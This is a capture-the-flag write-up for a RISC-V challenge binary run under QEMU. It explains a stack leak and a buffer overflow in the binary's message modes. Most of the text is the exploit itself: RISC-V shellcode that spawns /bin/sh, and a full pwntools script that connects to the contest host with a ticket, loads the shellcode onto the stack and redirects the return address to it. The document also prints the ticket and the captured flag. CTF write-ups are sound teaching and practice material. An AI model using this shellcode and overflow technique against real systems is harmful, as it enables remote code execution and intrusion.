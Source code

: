 # RISC-V Smash Baby

## Challenge

We are given a 32-bit RISC-V binary.
The binary is being run on an Ubuntu x86\_64 system through QEMU.

### Checksec

```
    Arch:     em_riscv-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x10000)
    RWX:      Has RWX segments
```

## Solution

We're given a stack leak at the very start.

To send messages, we first send "ACEG" to indicate the start of a message.

We can then select a mode with the next 2 bytes.
The mode specified by 0xcefa allows us to read a large payload onto the stack.
The mode specified by 0x4242 has a buffer overflow, allowing us to overwrite the stored return address.

We can load shellcode using the 0xcefa mode, then jump to it using the buffer overflow in the 0x4242 mode.
The address of our shellcode can be calculated from the leak provided at the start.

## Exploit

```asm
start:
    auipc a0, 0
    addi a0, a0, 0x12
    li a1, 0
    li a2, 0
    li a7, 0xDD
    ecall

shell:
    .string "/bin/sh"
```

```py
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
# This exploit template was generated via:
# $ pwn template --host riscv_smash.quals2023-kah5Aiv9.satellitesabove.me --port 5300
from pwn import *

# Set up pwntools for the correct architecture
context.update(arch='i386')
exe = 'smash-baby'

# Many built-in settings can be controlled on the command-line and show up
# in "args".  For example, to dump all data sent/received, and disable ASLR
# for all created processes...
# ./exploit.py DEBUG NOASLR
# ./exploit.py GDB HOST=example.com PORT=4141
host = args.HOST or 'riscv_smash.quals2023-kah5Aiv9.satellitesabove.me'
port = int(args.PORT or 5300)
ticket = b'ticket{papa544237echo4:GD10t14Dqob7-F-Ec6XLG4bT7Zv8_pIHNEFQobutMyiZRYmILotSErSMYYh2U1g8TA}'

def start_local(argv=[], *a, **kw):
    '''Execute the target binary locally'''
    if args.GDB:
        return process(['qemu-riscv32', '-g', '1234', exe] + argv, env={'FLAG': 'test{flag}'}, *a, **kw)
    else:
        return process(['qemu-riscv32', exe] + argv, env={'FLAG': 'test{flag}'}, *a, **kw)

def start_remote(argv=[], *a, **kw):
    '''Connect to the process on the remote host'''
    io = connect(host, port)
    io.sendlineafter(b'Ticket please:\n', ticket)
    return io

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.LOCAL:
        return start_local(argv, *a, **kw)
    else:
        return start_remote(argv, *a, **kw)

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================

io = start()

io.recvuntil(b'here is something useful: ')
leak = int(io.recvline(), 0)
io.success("leak: " + hex(leak))

io.recvuntil(b'Exploit me!\n')
io.send(b'ACEG' + p16(0xcefa))
io.send(flat(open('shellcode', 'rb').read(), length=300))

io.send(b'ACEG' + p16(0x4242))
io.send(flat({0x24: leak-0x18c}))
io.success("shellcode loaded at " + hex(leak-0x18c))

io.interactive()
```

## Flag

```
flag{papa544237echo4:GIx3WgsJ8-SyDUkF_uH0BluZAUM7Cucv2expocS_FlybZh-WEqeOsDYfzOv0ZiAVziBz67aZu7pyPvtASoTUwA8}
```
